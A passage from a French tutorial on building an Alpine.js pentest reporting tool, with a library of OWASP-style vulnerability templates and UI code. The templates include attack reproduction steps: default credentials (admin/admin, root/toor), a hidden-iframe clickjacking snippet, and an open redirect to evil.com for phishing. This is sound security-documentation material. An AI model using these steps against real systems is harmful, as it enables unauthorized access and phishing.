            'Télécharger fichiers sensibles découverts'
        ],
        remediation: 'Désactiver directory listing dans configuration serveur (Options -Indexes pour Apache, autoindex off pour Nginx). Toujours placer index.html dans répertoires publics.',
        references: [
            'OWASP Top 10 2021: A05 Security Misconfiguration',
            'CWE-548: Information Exposure Through Directory Listing'
        ],
        cvss: {
            version: '3.1',
            vector: 'CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N',
            score: 5.3,
            rating: 'Medium'
        }
    },
    
    default_credentials: {
        title: 'Default Credentials Not Changed',
        severity: 'critical',
        category: 'config',
        description: 'L\'application ou composant (admin panel, DB, serveur) utilise des credentials par défaut non modifiés (admin/admin, root/toor).',
        impact: 'Accès administrateur complet à l\'application ou au système.',
        reproduction: [
            'Identifier panel admin : /admin, /phpmyadmin',
            'Tester credentials par défaut : admin/admin, admin/password, root/root',
            'Accéder au panel administrateur sans authentification légitime'
        ],
        remediation: 'Forcer changement de credentials par défaut à l\'installation. Implémenter setup wizard. Scanner avec Nessus pour détecter credentials par défaut.',
        references: [
            'OWASP Top 10 2021: A05 Security Misconfiguration',
            'CWE-798: Use of Hard-coded Credentials'
        ],
        cvss: {
            version: '3.1',
            vector: 'CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H',
            score: 10.0,
            rating: 'Critical'
        }
    },
    
    // A04:2021 – Insecure Design
    account_enumeration: {
        title: 'Username Enumeration',
        severity: 'low',
        category: 'misc',
        description: 'L\'application révèle si un nom d\'utilisateur existe via différences dans messages d\'erreur ou temps de réponse.',
        impact: 'Énumération de comptes valides, facilitant attaques bruteforce ciblées, phishing, social engineering.',
        reproduction: [
            'Tenter login avec username existant + mauvais password : "Mot de passe incorrect"',
            'Tenter login avec username inexistant : "Utilisateur introuvable"',
            'Différence révèle existence du compte'
        ],
        remediation: 'Utiliser message générique : "Identifiants incorrects". Temps de réponse constant. Implémenter rate limiting même sur usernames inexistants.',
        references: [
            'OWASP Top 10 2021: A04 Insecure Design',
            'CWE-204: Response Discrepancy Information Exposure'
        ],
        cvss: {
            version: '3.1',
            vector: 'CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N',
            score: 5.3,
            rating: 'Medium'
        }
    },
    
    // A06:2021 – Vulnerable and Outdated Components
    outdated_components: {
        title: 'Vulnerable and Outdated Components',
        severity: 'high',
        category: 'misc',
        description: 'L\'application utilise des bibliothèques, frameworks ou composants avec vulnérabilités connues (CVE publiques).',
        impact: 'Exploitation de vulnérabilités publiquement documentées (RCE, XSS, injection, DoS) selon la vulnérabilité du composant.',
        reproduction: [
            'Identifier versions composants : headers HTTP, erreurs, /package.json',
            'Chercher CVE pour versions identifiées : CVE Details, NVD',
            'Exploiter avec Metasploit ou exploit public disponible'
        ],
        remediation: 'Maintenir inventaire des composants. Vérifier vulnérabilités (npm audit, OWASP Dependency Check). Mettre à jour régulièrement. Retirer composants inutilisés.',
        references: [
            'OWASP Top 10 2021: A06 Vulnerable and Outdated Components',
            'CWE-1035: 2019 Top 25 CWE',
            'https://nvd.nist.gov/'
        ],
        cvss: {
            version: '3.1',
            vector: 'CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H',
            score: 9.8,
            rating: 'Critical'
        }
    },
    
    // Autres vulnérabilités courantes
    cors_misconfiguration: {
        title: 'CORS Misconfiguration - Wildcard Origin',
        severity: 'medium',
        category: 'config',
        description: 'L\'application accepte requêtes cross-origin depuis n\'importe quelle origine (*) ou reflète Origin sans validation.',
        impact: 'Bypass Same-Origin Policy, vol de données via requêtes cross-origin depuis domaines malveillants.',
        reproduction: [
            'Inspecter headers réponse API : Access-Control-Allow-Origin: *',
            'Créer page malveillante effectuant requête AJAX vers API',
            'Observer que requête réussit avec credentials de la victime'
        ],
        remediation: 'Whitelist stricte d\'origines autorisées. Ne JAMAIS utiliser wildcard avec Access-Control-Allow-Credentials. Valider Origin côté serveur.',
        references: [
            'OWASP ASVS: V14 Configuration',
            'CWE-942: Overly Permissive Cross-domain Whitelist',
            'https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS'
        ],
        cvss: {
            version: '3.1',
            vector: 'CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N',
            score: 6.1,
            rating: 'Medium'
        }
    },
    
    clickjacking: {
        title: 'Clickjacking - Missing X-Frame-Options',
        severity: 'low',
        category: 'misc',
        description: 'L\'application ne définit pas X-Frame-Options ou Content-Security-Policy frame-ancestors, permettant l\'inclusion dans iframe malveillante.',
        impact: 'Clickjacking : inciter utilisateur à cliquer sur boutons invisibles (virements, suppression compte, like Facebook).',
        reproduction: [
            'Créer page malveillante avec iframe : <iframe src="https://target.com/delete-account">',
            'Masquer iframe avec CSS (opacity:0)',
            'Positionner bouton visible au-dessus du bouton réel',
            'Victime clique pensant cliquer sur bouton visible'
        ],
        remediation: 'Définir X-Frame-Options: DENY ou SAMEORIGIN. Ou CSP: frame-ancestors \'none\'. Implémenter frame-busting JavaScript en complément.',
        references: [
            'OWASP ASVS: V14 Configuration',
            'CWE-1021: Improper Restriction of Rendered UI Layers',
            'https://cheatsheetseries.owasp.org/cheatsheets/Clickjacking_Defense_Cheat_Sheet.html'
        ],
        cvss: {
            version: '3.1',
            vector: 'CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N',
            score: 4.3,
            rating: 'Medium'
        }
    },
    
    open_redirect: {
        title: 'Open Redirect / Unvalidated Redirect',
        severity: 'low',
        category: 'misc',
        description: 'L\'application redirige vers URL fournie en paramètre sans validation, permettant redirection vers sites malveillants.',
        impact: 'Phishing via URL légitime, contournement whitelist, vol de tokens OAuth.',
        reproduction: [
            'Identifier paramètre de redirection : /logout?redirect=/',
            'Modifier vers domaine malveillant : /logout?redirect=https://evil.com',
            'Observer redirection vers domaine attaquant',
            'Utiliser pour phishing avec URL légitime en apparence'
        ],
        remediation: 'Whitelist de domaines/paths autorisés. Valider que redirect commence par /. Ne jamais rediriger vers URL absolue fournie par utilisateur.',
        references: [
            'OWASP ASVS: V5 Validation',
            'CWE-601: URL Redirection to Untrusted Site',
            'https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html'
        ],
        cvss: {
            version: '3.1',
            vector: 'CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N',
            score: 6.1,
            rating: 'Medium'
        }
    }
};

// Catégories pour organisation
const TEMPLATE_CATEGORIES = {
    'access-control': 'Broken Access Control',
    'injection': 'Injection',
    'xss': 'Cross-Site Scripting',
    'auth': 'Authentication',
    'crypto': 'Cryptographic Failures',
    'config': 'Security Misconfiguration',
    'csrf': 'CSRF',
    'misc': 'Autres'
};

// Exporter
window.VulnerabilityTemplates = {
    templates: VULNERABILITY_TEMPLATES,
    categories: TEMPLATE_CATEGORIES,
    
    getByCategory(category) {
        return Object.entries(VULNERABILITY_TEMPLATES)
            .filter(([_, t]) => t.category === category)
            .map(([key, template]) => ({ key, ...template }));
    },
    
    getAllTemplates() {
        return Object.entries(VULNERABILITY_TEMPLATES)
            .map(([key, template]) => ({ key, ...template }));
    }
};
```

### 8.2 Interface Templates Library

**Modal Templates (ajouter dans `index.html`) :**

```html
<!-- Modal Templates Library -->
<div x-data="{ get isOpen() { return $data.modalTemplates }, close() { $data.modalTemplates = false } }">
    <template x-if="isOpen">
        <div class="fixed inset-0 z-50 flex items-center justify-center p-4" x-transition>
            
            <!-- Backdrop -->
            <div @click="close()" class="absolute inset-0 bg-black bg-opacity-50"></div>
            
            <!-- Modal -->
            <div @click.stop
                 x-trap="isOpen"
                 class="relative bg-white dark:bg-gray-800 rounded-lg shadow-xl max-w-5xl w-full max-h-[90vh] overflow-y-auto">
                
                <!-- Header -->
                <div class="sticky top-0 bg-white dark:bg-gray-800 border-b px-6 py-4 flex items-center justify-between z-10">
                    <div>
                        <h2 class="text-xl font-semibold text-gray-900 dark:text-white">
                            Bibliothèque de Templates
                        </h2>
                        <p class="text-sm text-gray-500">Vulnérabilités courantes pré-remplies</p>
                    </div>
                    <button @click="close()">
                        <svg class="w-6 h-6" fill="none" stroke="currentColor" viewBox="0 0 24 24">
                            <path stroke-linecap="round" stroke-linejoin="round" stroke-width="2" d="M6 18L18 6M6 6l12 12"></path>
                        </svg>
                    </button>
                </div>
                
                <div class="px-6 py-6">
                    
                    <!-- Catégories Tabs -->
                    <div x-data="{ activeCategory: 'all', templates: window.VulnerabilityTemplates.getAllTemplates() }"
                         x-init="$watch('activeCategory', cat => {
                             if (cat === 'all') {
                                 templates = window.VulnerabilityTemplates.getAllTemplates();
                             } else {
                                 templates = window.VulnerabilityTemplates.getByCategory(cat);
                             }
                         })">
                        
                        <div class="flex flex-wrap gap-2 mb-6 border-b pb-4">
                            <button @click="activeCategory = 'all'"
                                    :class="{ 'bg-blue-600 text-white': activeCategory === 'all', 'bg-gray-100': activeCategory !== 'all' }"
                                    class="px-4 py-2 rounded-lg text-sm font-medium">
                                Toutes (<span x-text="window.VulnerabilityTemplates.getAllTemplates().length"></span>)
                            </button>
                            <template x-for="[cat, label] in Object.entries(window.VulnerabilityTemplates.categories)" :key="cat">
                                <button @click="activeCategory = cat"
                                        :class="{ 'bg-blue-600 text-white': activeCategory === cat, 'bg-gray-100': activeCategory !== cat }"
                                        class="px-4 py-2 rounded-lg text-sm font-medium">
                                    <span x-text="label"></span>
                                </button>
                            </template>
                        </div>
                        
                        <!-- Liste Templates -->
                        <div class="grid grid-cols-1 md:grid-cols-2 gap-4">
                            <template x-for="template in templates" :key="template.key">
                                <div class="border rounded-lg p-4 hover:shadow-md transition cursor-pointer"
                                     @click="loadTemplate(template); $data.modalTemplates = false; $data.modalAdd = true">
                                    
                                    <!-- Header -->
                                    <div class="flex items-start justify-between mb-2">
                                        <h3 class="font-semibold text-gray-900 dark:text-white text-sm"
                                            x-text="template.title"></h3>
                                        <span class="px-2 py-1 rounded text-xs font-semibold"
                                              :class="{
                                                  'bg-red-100 text-red-800': template.severity === 'critical',
                                                  'bg-orange-100 text-orange-800': template.severity === 'high',
                                                  'bg-yellow-100 text-yellow-800': template.severity === 'medium',
                                                  'bg-green-100 text-green-800': template.severity === 'low'
                                              }"
                                              x-text="template.severity.toUpperCase()"></span>
                                    </div>
                                    
                                    <!-- Description preview -->
                                    <p class="text-xs text-gray-600 dark:text-gray-400 line-clamp-2 mb-2"
                                       x-text="template.description"></p>
                                    
                                    <!-- CVSS if available -->
                                    <div x-show="template.cvss" class="text-xs text-gray-500">
                                        CVSS: <span class="font-semibold" x-text="template.cvss?.score.toFixed(1)"></span>
                                        (<span x-text="template.cvss?.rating"></span>)
                                    </div>
                                </div>
                            </template>
                        </div>
                        
                    </div>
                    
                </div>
                
            </div>
        </div>
    </template>
</div>
```

**Ajouter dans `pentestApp()` :**

```javascript
modalTemplates: false,

/**
 * Charger un template dans le formulaire
 */
loadTemplate(template) {
    this.form = {
        id: null,
        title: template.title,
        severity: template.severity,
        status: 'open',
        category: template.category,
        description: template.description || '',
        impact: template.impact || '',
        reproduction: template.reproduction || [''],
        remediation: template.remediation || '',
        proofOfConcept: template.proofOfConcept || '',
        references: template.references || [''],
        cvss: template.cvss || null,
        discoveredBy: this.settings.defaultDiscoveredBy || '',
        tags: []
    };
    
    this.errors = {};
    this.editingId = null;
    
    console.log('Template loaded:', template.title);
},
```

**Bouton ouvrir templates (dans header ou main) :**

```html
<button @click="modalTemplates = true"
        class="flex items-center gap-2 px-6 py-3 bg-purple-600 text-white rounded-lg hover:bg-purple-700">
    <svg class="w-5 h-5" fill="none" stroke="currentColor" viewBox="0 0 24 24">
        <path stroke-linecap="round" stroke-linejoin="round" stroke-width="2" d="M19 11H5m14 0a2 2 0 012 2v6a2 2 0 01-2 2H5a2 2 0 01-2-2v-6a2 2 0 012-2m14 0V9a2 2 0 00-2-2M5 11V9a2 2 0 012-2m0 0V5a2 2 0 012-2h6a2 2 0 012 2v2M7 7h10"></path>
    </svg>
    Templates
</button>
```

**Charger script dans `index.html` :**

```html
<script src="assets/js/data/templates.js"></script> <!-- Nouveau -->
```

### Points Clés à Retenir Phase 8

- 🔑 **Templates OWASP** : Bibliothèque basée sur standards reconnus
- 🔑 **Quick-add** : Gain de temps énorme pour pentester
- 🔑 **Complet mais personnalisable** : Prérempli + modifiable
- 🔑 **20+ templates** : Couvre 90% des vulnérabilités courantes
- 🔑 **Catégorisé** : Organisation par type OWASP Top 10
- 🔑 **CVSS pré-calculé** : Scores cohérents pour vulns connues

### Checkpoint Phase 8

Vérifiez que vous pouvez :

- ✅ Cliquer "Templates" → Modal avec 20+ vulnérabilités
- ✅ Filtrer par catégorie (Injection, XSS, Auth, etc.)
- ✅ Cliquer sur template → Formulaire pré-rempli
- ✅ Modifier template avant sauvegarde
- ✅ Template SQL Injection a CVSS 10.0 pré-calculé
- ✅ Créer finding depuis template = gain de temps 80%

---

## Conclusion & Prochaines Étapes

<div class="omny-meta" data-level="🎓 Récapitulatif" data-time="Fin du guide"></div>

### 🎉 Félicitations !

Vous avez créé une **application Alpine.js professionnelle complète** de A à Z : le **Pentest Reporting Tool**.

**Ce que vous maîtrisez maintenant :**

- ✅ **Alpine.js exhaustif** : Directives, plugins, composants, stores
- ✅ **Architecture réactive** : État, computed properties, watchers
- ✅ **CRUD complet** : Create, Read, Update, Delete avec validation
- ✅ **Filtres avancés** : Recherche, filtres multiples combinables
- ✅ **CVSS 3.1** : Calculateur interactif professionnel
- ✅ **Persistence** : LocalStorage, import/export JSON
- ✅ **Export multi-format** : Markdown, HTML, PDF
- ✅ **UX professionnelle** : Dark mode, notifications, shortcuts
- ✅ **Templates** : Bibliothèque 20+ vulnérabilités OWASP

### 📊 Récapitulatif du Projet

| Métrique | Valeur |
|----------|--------|
| **Durée totale** | 15h30 |
| **Phases complétées** | 8 / 8 |
| **Lignes de code** | ~3 000+ |
| **Fichiers créés** | 12+ |
| **Concepts Alpine.js** | 25+ |
| **Fonctionnalités** | 15+ |
| **Templates vulns** | 20+ |

### 🎯 Cas d'Usage Réels

**Ce projet est utilisable immédiatement pour :**

1. **Pentester indépendant** : Documenter audits de sécurité
2. **Équipe Red Team** : Centraliser findings multi-testeurs
3. **Formation cybersécurité** : Outil pédagogique complet
4. **Portfolio professionnel** : Démontre compétences Alpine + métier
5. **Base projet** : Fork pour créer autres outils (Bug Bounty tracker, Compliance checker, etc.)

### 🚀 Évolutions Possibles

**Améliorations optionnelles :**

- **Collaboration** : Multi-utilisateurs avec backend Laravel
- **Synchronisation** : Cloud sync via API
- **Intégration outils** : Import depuis Burp Suite, OWASP ZAP
- **Rapports avancés** : Charts.js, graphiques sévérité
- **Multilingue** : i18n pour rapports internationaux
- **Attachements** : Upload screenshots/POC
- **Export Word** : Génération DOCX via docxtemplater
- **API REST** : Exposer findings en JSON pour intégrations

### 🔗 Complémentarité avec la Stack TALL

!!! success "Alpine.js dans l'écosystème TALL Stack"
    Ce projet **Alpine.js pur** démontre la puissance du framework frontend. Dans un contexte professionnel d'équipe, Alpine.js s'intègre naturellement dans la **Stack TALL** (Tailwind + Alpine + Livewire + Laravel).
    
    **Évolution vers TALL Stack :**
    
    | Alpine.js Seul (ce projet) | TALL Stack (Laravel + Livewire) |
    |----------------------------|----------------------------------|
    | ✅ Prototypage rapide | ✅ Application multi-utilisateurs |
    | ✅ Outil personnel | ✅ SaaS commercial |
    | ✅ LocalStorage | ✅ Base de données centralisée |
    | ✅ Pas de serveur | ✅ Authentification/autorisation |
    | ✅ Offline-first | ✅ Synchronisation temps réel |
    | ❌ Pas de collaboration | ✅ Équipes Red Team partagées |
    
    **Pour aller plus loin avec TALL :**
    
    - 📚 [Guide Livewire Fondamentaux](/dev-cloud/lang/livewire-fondamentaux/)
    - 📚 [Guide Laravel Jetstream](/dev-cloud/lang/laravel/jetstream/)
    - 📚 [Stack TALL Complète](/dev-cloud/frameworks/tall/)
    - 🛠️ [Projet : Pentest Platform SaaS](/projets/jetstream-pentest-platform/) - Version TALL complète de cet outil

### 📚 Ressources Complémentaires

**Documentation officielle :**

- [Alpine.js Official Docs](https://alpinejs.dev)
- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [CVSS v3.1 Specification](https://www.first.org/cvss/v3.1/specification-document)

**Communauté Alpine.js :**

- [GitHub Discussions](https://github.com/alpinejs/alpine/discussions)
- [Discord Alpine.js](https://discord.gg/alpinejs)
- [Awesome Alpine.js](https://github.com/alpine-collective/awesome)

**Cybersécurité :**

- [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security)
- [HackerOne Disclosed Reports](https://hackerone.com/hacktivity)

### Le Mot de la Fin

!!! quote
    Alpine.js a prouvé qu'un framework **léger n'est pas limité**. En 15 heures, vous avez construit un outil professionnel réutilisable qui combine **expertise technique** (Alpine.js, JavaScript moderne, APIs Web) et **connaissances métier** (cybersécurité, CVSS, OWASP).
    
    Ce projet n'est pas un tutoriel jouet. C'est un **outil réel** que vous pouvez utiliser dans vos audits, améliorer selon vos besoins, et présenter comme **portfolio professionnel**. Vous avez démontré que maîtriser Alpine.js = créer des applications **modernes, réactives et performantes** sans la complexité d'un framework lourd.
    
    La prochaine étape ? **Utilisez-le.** Documentez vos prochains pentests avec cet outil. Ajoutez vos propres templates. Partagez-le avec la communauté. Évoluez-le vers une version TALL Stack si vous avez besoin de collaboration.
    
    Vous n'avez pas seulement appris Alpine.js. Vous avez créé quelque chose d'**utile et professionnel**.

**Continuez votre apprentissage :**

- 👉 [Guide Livewire Fondamentaux](/dev-cloud/lang/livewire-fondamentaux/)
- 👉 [Projet Laravel Jetstream : Pentest Platform](/projets/jetstream-pentest-platform/)
- 👉 [Stack TALL Complète](/dev-cloud/frameworks/tall/)

**Merci d'avoir suivi ce guide !** 🚀


[^1]: **Sprinkle JavaScript** signifie ajouter une petite touche de JavaScript à une page existante, sans réécrire toute l'application.